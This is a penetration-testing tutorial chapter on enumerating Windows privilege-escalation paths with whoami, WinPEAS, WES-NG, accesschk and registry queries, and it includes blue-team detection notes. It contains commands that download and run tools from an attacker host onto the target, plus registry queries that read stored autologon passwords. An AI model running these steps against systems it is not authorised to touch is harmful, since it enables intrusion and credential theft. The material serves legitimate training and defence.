This is Chapter 4 of the Privilege Escalation notebook. The previous two chapters walked the Linux side of the same problem — Chapter 2 was about *finding* the path up on Linux with LinPEAS and manual checks, and Chapter 3 was about *taking* it. This chapter opens the Windows equivalent, and like its Linux counterpart it splits enumeration from exploitation: here you learn how to look, how to read what you see, and how to turn a raw pile of system facts into a ranked, exploitable to-do list. Chapter 5 will weaponise those findings.

Windows privilege escalation frustrates newcomers because the operating system hides its weaknesses behind a very different model from Linux. There is no single `find / -perm -4000` that surfaces everything. Instead the interesting mistakes live in service definitions, registry keys, access-control lists on files most people never look at, token privileges granted to service accounts, scheduled tasks, and forgotten credentials in a dozen file formats. The skill is knowing every place a misconfiguration can hide and being able to enumerate all of them quickly and quietly. That is exactly what this chapter builds.

Everything here assumes an explicit, written, scoped engagement or lab hardware you own. Having a shell as `iis apppool\web` or a captured service account does **not** make SYSTEM fair game unless your rules of engagement say so. Run every command and tool in this chapter against your own VMs, HackTheBox/TryHackMe/Proving-Grounds boxes, or systems named in a signed authorisation — and nowhere else. Enumeration is quiet, but it is not invisible; several of the tools here are flagged by modern EDR, and we will call out which and why as we go.

---

## Part 1: Why Enumeration Is 90% of Windows PrivEsc

On a hardened, fully patched Windows box with no local admin mistakes, there is nothing to escalate. That box is rare. Real Windows systems — especially workstations built from a golden image years ago, and servers configured by hand under deadline pressure — accumulate misconfigurations: a service installed to a world-writable directory, a scheduled task that runs a script an unprivileged user can edit, a `web.config` with a domain credential in cleartext, a token privilege granted to make some legacy app work. **None of these are exploits. They are conditions.** Your job in the enumeration phase is to discover every condition that exists, understand which one gives the cleanest path to `NT AUTHORITY\SYSTEM` or an administrator, and only then reach for the technique that abuses it.

The single biggest mistake beginners make is firing exploits before they understand the target. They run a kernel exploit found by a scanner, blue-screen the box, lose their foothold, and burn the engagement's goodwill. A disciplined operator enumerates first, builds a prioritized list — cheap-and-reliable techniques at the top (token abuse, service replacement), destabilising ones (kernel exploits) at the bottom — and works down it. This is identical to the situational-awareness mindset from Chapter 1 of this notebook, applied to a new OS.



Enumeration is also where you avoid *destroying* your access. Windows privilege escalation offers a spectrum of techniques by reliability:

| Reliability tier | Example techniques | Risk to foothold |
|---|---|---|
| Very reliable | Token impersonation (SeImpersonate + Potato), service binary replacement with write access, AlwaysInstallElevated, stored plaintext creds | Minimal — no crash risk |
| Reliable | Unquoted service path, weak service ACL restart, DLL hijack, scheduled task hijack | Low — may need a service/task restart |
| Situational | UAC bypass, saved RDP/WiFi creds, GPP passwords | Depends on target state |
| Last resort | Kernel exploits (e.g. an unpatched LPE CVE) | High — can BSOD the host |

The entire point of enumerating thoroughly is to find something in the top rows so you never have to touch the bottom one. **Red team relevance:** a token-impersonation win leaves almost no forensic footprint compared to dropping and running a kernel exploit binary that AV will flag and that writes a crash dump. **Blue team relevance:** conversely, defenders should assume attackers prefer the quiet top-tier techniques, so detection effort belongs on service/registry tampering and anomalous token use, not just on known-CVE exploit binaries.

---

## Part 2: The Windows Privilege Model You Must Understand First

You cannot read enumeration output intelligently without a working model of *how* Windows decides who can do what. Four concepts do almost all the work: **security principals and SIDs**, **access tokens**, **privileges**, and **securable objects with ACLs**. Chapter 1–3 of the Windows Fundamentals notebook covers these in depth; here is the operational recap you need to interpret WinPEAS output.

### Security principals and SIDs

Every user, group, and computer is a **security principal** identified by a **SID** (Security Identifier), a string like `S-1-5-21-1004336348-1177238915-682003330-1013`. A few SIDs are worth memorising because you will see them constantly:

| SID | Principal | Meaning |
|---|---|---|
| `S-1-5-18` | `NT AUTHORITY\SYSTEM` | The local super-account — the goal of most escalations |
| `S-1-5-19` | `NT AUTHORITY\LOCAL SERVICE` | Low-priv service account, limited network identity |
| `S-1-5-20` | `NT AUTHORITY\NETWORK SERVICE` | Service account that uses the machine account on the network |
| `S-1-5-32-544` | `BUILTIN\Administrators` | Local admin group |
| `S-1-5-32-545` | `BUILTIN\Users` | All interactive users |
| `S-1-5-11` | `Authenticated Users` | Anyone who logged on with credentials |
| `S-1-5-21-…-500` | The local `Administrator` (RID 500) | Built-in admin; RID 500 always |

SYSTEM (`S-1-5-18`) has more raw local power than even the Administrator account. That is why so many Windows escalations aim for SYSTEM rather than a member of the Administrators group — services run as SYSTEM, and abusing a service is often the shortest path.

### Access tokens: the heart of it all

When you log on, the Local Security Authority (LSASS) builds an **access token** and attaches it to your processes. Every child process inherits a copy. The token is the answer to "who is this process, and what may it do." It contains:

- The user SID and every group SID you belong to.
- A list of **privileges** (see below) and whether each is enabled.
- An **integrity level** (see below).

There are two token types that matter enormously for escalation:

- **Primary token** — attached to a process, defines its identity.
- **Impersonation token** — a thread can temporarily *impersonate* another identity. Services that accept client connections receive impersonation tokens for their clients. **This is the entire basis of the "Potato" family of attacks**: if your account holds `SeImpersonatePrivilege`, and you can coax a SYSTEM process to authenticate to something you control, you can grab its impersonation token and act as SYSTEM. Chapter 5 exploits this; here you just need to enumerate whether you *have* that privilege.



### Integrity levels and UAC

Windows tags every process and securable object with a **mandatory integrity level (IL)**: Low, Medium, High, or System. A process cannot write to an object of higher integrity even if the DACL would otherwise allow it. Standard user processes run at **Medium**. Elevated (admin-approved) processes run at **High**. SYSTEM services run at **System**.

**This is why "I'm in the Administrators group" does not mean "I have admin rights right now."** Because of **UAC (User Account Control)**, an admin's normal processes run at *Medium* integrity with a filtered token — the admin group membership is present but marked "deny-only," and admin privileges are stripped — until the user explicitly elevates. Getting from Medium to High as an admin user is a **UAC bypass**; getting from a genuinely non-admin account to High/System is **privilege escalation**. Enumeration must tell you which situation you are in. `whoami /groups` shows your integrity level; we will read it in Part 3.

### Privileges: the ones that are basically SYSTEM

A **privilege** is a named right to perform a system-wide action, independent of object ACLs. Most are harmless. A handful are effectively a direct route to SYSTEM if enabled, because they let you sidestep normal access checks:

| Privilege | Constant | Why it's dangerous |
|---|---|---|
| Impersonate a client after authentication | `SeImpersonatePrivilege` | Potato attacks → SYSTEM. Held by many service accounts. |
| Assign primary token | `SeAssignPrimaryTokenPrivilege` | Similar to impersonate; combine with token tricks. |
| Back up files and directories | `SeBackupPrivilege` | Read *any* file (SAM, SYSTEM hives, NTDS.dit) bypassing ACLs. |
| Restore files and directories | `SeRestorePrivilege` | Write *any* file/registry key bypassing ACLs → overwrite system binaries. |
| Take ownership | `SeTakeOwnershipPrivilege` | Take ownership of any object, then rewrite its ACL. |
| Debug programs | `SeDebugPrivilege` | Open any process (including LSASS) → dump creds / inject. |
| Load and unload drivers | `SeLoadDriverPrivilege` | Load a malicious/vulnerable driver → kernel code exec. |
| Manage auditing and security log | `SeSecurityPrivilege` | Read/clear the Security log; useful for anti-forensics. |
| Create a token object | `SeCreateTokenPrivilege` | Forge an arbitrary token → SYSTEM. Rare but game-over. |

Memorise the top of this list. When you run `whoami /priv` and see `SeImpersonatePrivilege` enabled, you have very likely already won — you just have to execute the technique in the next chapter. **Bug-bounty/CTF note:** on HackTheBox and Proving Grounds Windows boxes, a service-account foothold (via a web shell running as `iis apppool\...`, or an abused MSSQL service) almost always carries `SeImpersonatePrivilege`, which is why "JuicyPotato / PrintSpoofer to SYSTEM" is the single most common Windows box ending.

---

## Part 3: Situational Awareness — The First Five Minutes by Hand

Before you drop any tooling, answer three questions with built-in commands. This costs nothing, touches no disk (mostly), and orients everything that follows. Automated tools are faster but noisier and sometimes flagged; knowing the manual equivalents means you are never dependent on a binary that AV just quarantined.

### Who am I?

```cmd
whoami
whoami /all
```

`whoami /all` is the single most information-dense command on Windows. It prints your user SID, every group you are in (with their SIDs), your integrity level, and — crucially — your **privilege list**. Read the `PRIVILEGES INFORMATION` block first every single time. Annotated sample output on a service-account foothold:

```text
USER INFORMATION
----------------
User Name             SID
===================== =============================================
iis apppool\web       S-1-5-82-3006700770-424185619-1745488364-...

GROUP INFORMATION
-----------------
Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled   <-- WIN
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
```

The single line `SeImpersonatePrivilege ... Enabled` is the whole game on this box — note it and move on; you will cash it in during Chapter 5. Also note the integrity label: `High Mandatory Level` here (service accounts often run High), versus `Medium Mandatory Level` for a normal interactive user.

`whoami /priv` alone prints just the privilege table if that is all you want:

```cmd
whoami /priv
```

**Detection note (blue team):** `whoami /all` is benign on its own but, chained with rapid `systeminfo`, `net`, and `wmic` calls from a non-interactive service account, forms a recognisable discovery pattern. This maps to MITRE ATT&CK **T1033 (System Owner/User Discovery)** and **T1082 (System Information Discovery)** — Sysmon process-creation events (Event ID 1) for these binaries spawned by `w3wp.exe` or `sqlservr.exe` are a strong pivot-in-progress signal.

### What is this machine?

```cmd
systeminfo
hostname
echo %USERDOMAIN%    :: is this box domain-joined?
```

`systeminfo` gives you OS name, exact build, architecture, domain membership, and — the reason privesc hunters love it — the full **hotfix list**. That hotfix list is what kernel-exploit suggesters parse to find missing patches. Save it:

```cmd
systeminfo > systeminfo.txt
```

Key lines to read: `OS Name`, `OS Version` (the build number, e.g. `10.0.19045`), `System Type` (`x64-based PC`), `Domain`, and `Hotfix(s): N Hotfix(s) Installed`. A box with a handful of hotfixes and an old build is a kernel-exploit candidate; a box patched last week is not.

### What can I already reach?

```cmd
whoami /groups
net user %username%
net localgroup administrators
ipconfig /all
```

`net localgroup administrators` shows who is local admin — if your user is unexpectedly listed, you may only need a UAC bypass rather than a full escalation. `ipconfig /all` and the domain check tell you whether the next move is local privesc or lateral movement into Active Directory (covered in the AD notebooks).



---

## Part 4: Automated Enumeration Tool #1 — WinPEAS (from scratch)

**What it is.** WinPEAS (Windows Privilege Escalation Awesome Scripts) is the Windows sibling of LinPEAS from Chapter 2, part of the **PEASS-ng** project. It is a single self-contained enumerator that runs dozens of checks — OS/patch info, service misconfigurations, registry autoruns, weak ACLs, stored credentials, token privileges, scheduled tasks, installed software, network config — and **colour-codes findings by exploitability**. Red/yellow highlighting means "look here first." It is the default first automated pass on almost every Windows box.

**Why it exists.** Doing every check in Parts 5–9 by hand takes an hour and you will miss things. WinPEAS runs them all in seconds and surfaces the exploitable ones. It does not exploit anything — it only reports — which makes it safe to run on a live target (aside from being noisy/AV-flagged).

**Forms it ships in.** There are two builds you must know:

- `winPEASx64.exe` / `winPEASx86.exe` — compiled .NET binaries, most thorough. Pick the one matching the OS architecture from `systeminfo` (`System Type`).
- `winPEAS.bat` — a batch fallback for when you cannot run a .NET binary. Far less thorough; use only when EXEs are blocked.
- `winPEAS.ps1` builds also exist in some releases.

**Install / obtain (on your Kali attack box).** WinPEAS is prebuilt in the PEASS-ng releases and bundled with the `peass` / `seclists`-adjacent packages on Kali:

```bash
# On Kali, the binaries are shipped here:
ls -la /usr/share/peass/winpeas/
# -> winPEASx64.exe  winPEASx86.exe  winPEAS.bat  winPEASany.exe ...

# If missing, install or clone:
sudo apt install peass -y
# or grab a specific release:
# (fetch the winPEASx64.exe asset from the PEASS-ng releases page)
```

**Transfer to the target.** You have a shell on the victim; you need the binary there. The classic pattern is: host it from Kali, pull it on the target. Serve from your working dir:

```bash
# Kali: serve the tool over HTTP
cd /usr/share/peass/winpeas/
python3 -m http.server 8000
```

```powershell
# Target (PowerShell): download to a writable dir and run
cd C:\Windows\Temp
iwr -Uri http://10.10.14.7:8000/winPEASx64.exe -OutFile wp.exe
.\wp.exe
```

`iwr` is `Invoke-WebRequest`. On very old boxes without it, use `certutil -urlcache -split -f http://10.10.14.7:8000/winPEASx64.exe wp.exe` — but note `certutil` downloading an executable is itself a heavily-monitored indicator (**T1105 Ingress Tool Transfer**). For a fileless run you can also reflectively load the .NET assembly in memory, which we cover with Seatbelt/SharpUp in Part 12.

**Core usage and the flags that matter.** Running `.\wp.exe` with no arguments runs everything. Useful flags:

| Flag | Effect |
|---|---|
| `systeminfo` | Only the system/OS/patch checks |
| `userinfo` | Only user, group, token, and privilege checks |
| `servicesinfo` | Only service enumeration (unquoted paths, weak perms) |
| `applicationsinfo` | Installed apps, autoruns, scheduled tasks |
| `filesinfo` | Interesting files, potential credential files |
| `quiet` | Suppress the banner/tips (cleaner logs) |
| `notcolor` | Disable ANSI colour (for shells that mangle it) |
| `log` or `log=out.txt` | Also write results to a file |
| `cmd` | Run additional CMD-based checks |
| `-lolbas` | Include LOLBAS checks |

A common, quieter invocation that still catches the high-value stuff and logs to a file:

```powershell
.\wp.exe quiet servicesinfo userinfo applicationsinfo log=C:\Windows\Temp\wp.txt
```

**Reading the output — the colours.** WinPEAS uses a legend it prints at the top. In practice:

- **Red on yellow / bright red** = almost certainly exploitable (e.g. a service you can modify, `AlwaysInstallElevated=1`, a writable path in an autorun). Investigate these first.
- **Green** = the check ran and found the *secure* state, or informational.
- **Cyan / blue** = interesting but needs context.

Annotated excerpt of what a juicy run looks like:

```text
ÉÍÍÍÍÍÍÍÍÍ͹ Checking Service Permissions
  ...
  SNMP( C:\Program Files\SNMP\snmp.exe )[No quotes and Space detected]
    - POSSIBLE PATH HIJACK if you can write to an intermediate dir
  VulnSvc( C:\Temp\service.exe )
    File Permissions: Users [WriteData/CreateFiles]        <-- RED: you can replace the binary
    Service Permissions: Users [WriteData/Start/Stop]      <-- RED: you can also restart it

ÉÍÍÍÍÍÍÍÍÍ͹ Checking AlwaysInstallElevated
  [+] AlwaysInstallElevated set to 1 in HKLM and HKCU      <-- RED: MSI-as-SYSTEM

ÉÍÍÍÍÍÍÍÍÍ͹ Current Token privileges
  SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED             <-- RED: Potato to SYSTEM
```

Each red line maps to one of the exploitation techniques in Chapter 5. Your job now is to **verify** each red finding by hand (Parts 5–9) so you do not waste time on a false positive — WinPEAS occasionally flags a writable path that a real access check would deny.

**Detection note (blue team).** WinPEAS binaries are signatured by essentially every AV/EDR — Defender flags `winPEASx64.exe` on write and on execution (`HackTool:Win64/WinPEAS` and similar). Running it on a monitored host will generate an alert. Operators counter this by recompiling from source with light obfuscation, using the `.bat` variant, or running only targeted checks; defenders should treat any WinPEAS detonation as a confirmed post-exploitation discovery event and hunt for the preceding foothold. It maps to ATT&CK **T1057, T1082, T1518, T1033** simultaneously — a single process touching all of those is itself the signature.

---

## Part 5: Enumeration Surface #1 — OS, Patches, and Kernel Exploit Leads

The cheapest thing to check, and the last thing you should actually *exploit*, is missing patches. A kernel or privileged-component LPE can take an unpatched box to SYSTEM in one shot — but it can also crash it. Enumerate the patch level now; decide whether to use it only after the safer leads are exhausted.

### Gathering the data

You already have `systeminfo.txt` from Part 3. The two facts that matter are the **build number** and the **installed hotfix list**. Also list hotfixes directly:

```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

`wmic qfe` queries the "Quick Fix Engineering" class — the same hotfixes `systeminfo` shows, in a cleaner table. On newer boxes where `wmic` is deprecated/removed, use PowerShell:

```powershell
Get-HotFix | Sort-Object InstalledOn -Descending | Select-Object HotFixID, InstalledOn
```

### Matching patches to exploits with Watson and the suggesters

**What Watson is.** Watson is a .NET tool that reads the local patch state and compares it against a built-in database of Windows LPE CVEs, telling you which known kernel/component vulnerabilities the box is missing patches for. It is the modern successor to the old **Sherlock** PowerShell script (which did the same thing but is now outdated and only covers older CVEs).

**Why it exists.** Manually cross-referencing a hotfix list against dozens of CVEs is error-prone. Watson automates the match and only reports *applicable* misses.

Because Watson must be compiled against the right .NET version, many operators instead run the classic offline suggester on their Kali box, feeding it the target's `systeminfo` output — nothing runs on the victim at all, which is stealthier:

**windows-exploit-suggester-ng (WES-NG).** 

```bash
# Kali: install and update the CVE database
pip install wesng            # provides the 'wes' command
wes.py --update              # pulls the latest MSRC data -> definitions file

# Feed it the target's systeminfo output (copied off the box)
wes.py systeminfo.txt --exploits-only --impact "Elevation of Privilege"
```

Annotated sample output:

```text
[+] Parsing systeminfo output
[+] Operating System
    - Windows 10 Version 1809 for x64-based Systems
[+] Missing patches: 4
  [E] CVE-2021-36934  HiveNightmare / SeriousSAM  - SAM readable by users
      Exploit: public PoC available
  [E] CVE-2021-1732   Win32k elevation of privilege
      Exploit: public PoC available
  [E] CVE-2020-0668   Service Tracing arbitrary file move -> EoP
[*] Done. Prioritise CVEs with reliable public exploits.
```

**How to read this.** WES-NG errs toward *over*-reporting — it lists every CVE the patch data says could apply, including ones with no practical exploit. Cross-check each hit: does a reliable public PoC exist, does it match the exact build/architecture, and is it non-destructive? Prefer logic bugs (e.g. **HiveNightmare/CVE-2021-36934**, which just makes the SAM database world-readable — no memory corruption, no crash risk) over memory-corruption kernel exploits that can BSOD. That preference for the reliable, non-destructive bug is the same reliability-tier thinking from Part 1.



**Blue team relevance.** This entire surface disappears with patching discipline; a box that installs monthly cumulative updates has essentially no kernel-LPE exposure. Detection here is less about the (offline) suggester and more about the *exploit* later — kernel LPE PoCs frequently trip Defender's exploit-guard and generate Sysmon driver-load (Event ID 6) or unusual process-integrity-elevation events.

---

## Part 6: Enumeration Surface #2 — Service Misconfigurations (the richest vein)

Windows **services** are programs that run in the background, frequently as SYSTEM. A service has an *image path* (the binary it runs), a *start type*, and — critically — its own **security descriptor** governing who may query, start, stop, or reconfigure it. Four independent mistakes in this area each lead to SYSTEM. Because so many services run as SYSTEM, this is the single richest enumeration surface on Windows, and you should learn to check all four by hand so you can verify what WinPEAS flags.

You need one tool from scratch to do this properly: **accesschk**.

### Tool from scratch: accesschk (Sysinternals)

**What it is.** `accesschk.exe` is a Microsoft Sysinternals utility that reports the effective permissions a given account has on files, directories, registry keys, services, and other securable objects. It is the authoritative way to answer "can *this* user actually write here?" — more reliable than eyeballing an ACL, because it computes the effective access including group memberships and deny ACEs.

**Why it matters here.** WinPEAS's "you can modify this service" finding is only a *lead*; `accesschk` confirms it. Because it is a legitimately-signed Microsoft binary, it is far less likely to be flagged than WinPEAS (though the `-accepteula` first-run behaviour and its use pattern can still be caught).

**Obtain and transfer.** Ships in the Sysinternals Suite; on Kali it is often at `/usr/share/windows-resources/`. Transfer like any other tool. First run needs EULA acceptance non-interactively:

```cmd
accesschk.exe /accepteula -nobanner ...
```

**The service-permission commands.** The key flags: `-u` (suppress errors), `-w` (show only write access), `-c` (treat the name as a Windows service; `*` = all services), `-v` (verbose), `-q` (no banner). To find every service your low-priv groups can modify:

```cmd
:: Which services can 'Users' (or a specific group) reconfigure/start/stop?
accesschk.exe -accepteula -uwcqv "Users" *
accesschk.exe -accepteula -uwcqv "Authenticated Users" *
```

Annotated output for a vulnerable service:

```text
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG        <-- you can rewrite the binPath!
        SERVICE_START
        SERVICE_STOP
```

`SERVICE_CHANGE_CONFIG` is the jackpot: it means you can point the service's binary path at your own payload and (if you can also start/stop it) have SYSTEM run it. That is the exploitation covered next chapter; here you just record it.

### The four service mistakes to enumerate



**1. Weak service ACL (`SERVICE_CHANGE_CONFIG`).** Covered above with accesschk. Verify with `sc qc <svc>` to see the current `BINARY_PATH_NAME` and `SERVICE_START_NAME` (the account — you want `LocalSystem`):

```cmd
sc qc daclsvc
```
```text
SERVICE_NAME: daclsvc
        BINARY_PATH_NAME   : C:\Program Files\DACL Service\daclservice.exe
        SERVICE_START_NAME : LocalSystem          <-- runs as SYSTEM
```

**2. Weak service *binary* file permissions.** Even if the service ACL is tight, if you can overwrite the *executable on disk*, you win when it next starts. Find the binary path from `sc qc`, then check file ACL:

```cmd
accesschk.exe -accepteula -quvw "C:\Program Files\Some Service\service.exe"
icacls "C:\Program Files\Some Service\service.exe"
```

`icacls` is the built-in ACL tool. Read its shorthand: `(F)`=full, `(M)`=modify, `(W)`=write, `(RX)`=read+execute. A line like `BUILTIN\Users:(M)` on a SYSTEM-run binary is game over:

```text
C:\Program Files\Some Service\service.exe
        BUILTIN\Users:(M)                 <-- RED: Users can Modify the binary
        NT AUTHORITY\SYSTEM:(F)
        BUILTIN\Administrators:(F)
```

**3. Unquoted service paths.** If a service's image path contains spaces and is **not wrapped in quotes**, Windows tries each space-delimited prefix with `.exe` appended when launching. For `C:\Program Files\Sub Dir\service.exe` it tries, in order: `C:\Program.exe`, `C:\Program Files\Sub.exe`, then the real path. If you can write to any earlier directory in that chain (commonly `C:\` is not writable, but a poorly-permissioned subfolder is), drop a malicious `.exe` there and the service runs *it* as SYSTEM. Enumerate all unquoted paths:

```cmd
wmic service get Name,DisplayName,PathName,StartMode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

That one-liner lists auto-start services whose path is outside `C:\Windows` and contains no quote character. For each hit, check whether any directory in the path chain is writable with `accesschk -uwdq "C:\Some Dir"` (`-d` = directory).

**4. DLL hijacking / missing DLLs.** If a service (or its binary) loads a DLL by name from a writable directory, or loads a DLL that does not exist on a writable search path, you can plant a malicious DLL. Enumerating this reliably needs Procmon (interactive) or PowerUp's `Find-ProcessDLLHijack`; note the candidates now and confirm next chapter.

### Managing services from a low-priv shell

`sc` (service control) and PowerShell both query services without admin:

```cmd
sc query state= all           :: list all services and states
sc qc <servicename>           :: query configuration of one
```
```powershell
Get-CimInstance -ClassName Win32_Service |
  Select-Object Name, StartName, State, PathName |
  Where-Object { $_.StartName -eq 'LocalSystem' }
```

That PowerShell filters to SYSTEM-running services — your highest-value targets. **CTF note:** the classic HackTheBox/TryHackMe "Steel Mountain," "Chatterbox," and Proving-Grounds beginner boxes escalate through exactly one of these four service mistakes; recognising which one applies from the enumeration output is the whole puzzle.

**Blue team relevance (woven).** Reconfiguring a service (`sc config binpath=`) writes to the registry under `HKLM\SYSTEM\CurrentControlSet\Services\<svc>` and generates **Service Control Manager Event ID 7040/7045** (service install / start-type change) and Sysmon registry-modification events. Weak-ACL services should be found and fixed proactively — `accesschk` is a defender's tool too; run `accesschk -uwcqv "Authenticated Users" *` on your own fleet during hardening.

---

## Part 7: Enumeration Surface #3 — Registry Autoruns and AlwaysInstallElevated

The registry stores several settings that translate directly into code execution, sometimes as SYSTEM.

### AlwaysInstallElevated — the two-key jackpot

If **both** of these keys are set to `1`, any user can install a Windows Installer (`.msi`) package and it runs with SYSTEM privileges — a trivially reliable escalation:

```cmd
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

You need **both** to read `0x1`:

```text
HKEY_LOCAL_MACHINE\...\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

HKEY_CURRENT_USER\...\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

If only one is set, it does not work. WinPEAS flags this in red; verify with the two `reg query` commands above. Exploitation (crafting a malicious MSI with `msfvenom`) is Chapter 5. **This is one of the most reliable escalations in existence** — no crash risk, no timing — so it belongs near the top of your lead list whenever both keys are `1`.

### Autorun programs with weak binary permissions

Programs launched at logon/boot from the `Run` keys execute in the context of whoever logs in. If a higher-privileged user (or SYSTEM) will run an autorun binary that you can overwrite, you win when they next log on:

```cmd
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

For each binary listed, check its file ACL with `accesschk -wvu "C:\path\to\autorun.exe"`. A writable autorun that an admin runs at logon is a clean escalation (you wait for, or induce, the logon).

### Stored credentials in the registry

Several products and Windows features store credentials in the registry in cleartext or trivially reversible form. Enumerate the classics:

```cmd
:: Windows autologon password (often plaintext!)
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName

